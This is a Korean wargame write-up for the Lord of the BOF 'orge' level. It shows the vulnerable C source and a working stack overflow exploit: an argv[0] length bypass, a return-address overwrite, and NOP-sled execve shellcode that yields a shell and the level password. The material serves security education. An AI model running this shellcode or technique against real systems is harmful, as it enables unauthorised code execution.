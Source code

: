 # Summary

**이전 문제와 동일한 내용은 생략하고 추가된 내용만 다루었다.**

- 문제의 소스코드

```c
[darkelf@localhost darkelf]$ cat orge.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// here is changed!
	if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

<br>

이전 문제에서 추가된 부분은 파일명에 해당하는 `argv[0]` 길이가 77인지 체크한다.

이 경우 파일명을 77개로 맞춰주면 우회가 가능하다.

아래와 같이 간단히 작성된 파이썬 코드로 조건문을 모두 만족시켜 스택을 `overflow` 시킬 수 있다.

```Python
[darkelf@localhost darkelf]$ ./orge `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
argv[0] error

[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
```

<br>

#### 아래는 이전 문제와 모두 동일한 내용이기 때문에 요약하여 내용을 정리하였다.

- `tmp`폴더를 생성해 문제의 소스코드를 복사하여 실행 권한을 획득한다.

```python
[darkelf@localhost darkelf]$ mkdir tmp; cp orge.c tmp;
[darkelf@localhost darkelf]$ cd tmp
```



- 문제의 소스코드에 `argv[2]`주소 값을 확인하는 코드를 아래와 같이 추가해준다.

```Python
[darkelf@localhost tmp]$ vi orge.c
printf("argv[2]: %#x\n",argv[2]); // argv[2] address
[darkelf@localhost tmp]$ gcc orge.c -o orge
```



- 파이썬으로 파일명에 해당하는 `argv[0]` 길이를 77개로 작성해 이전 문제와 동일한 exploit 코드를 작성한다.

```python
[darkelf@localhost tmp]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault (core dumped)
```



- 확인된 `argv[2]`에 해당하는 주소 값으로 `ret` 값을 변경하여 exploit 코드를 실행하여 `shell`을 획득할 수 있다.

```Python
[darkelf@localhost tmp]$ cd ..
[darkelf@localhost darkelf]$ `python -c "print '.'+'/'*72+'orge'"` `python -c "print 'A'*44+'\xd2\xf7\xff\xbf'"` `python -c "print '\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
argv[2]: 0xbffff7d2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
bash$ id
uid=506(darkelf) gid=506(darkelf) euid=507(orge) egid=507(orge) groups=506(darkelf)
bash$ my-pass
euid = 507
timewalker
```

### Clear! password is….

timewalker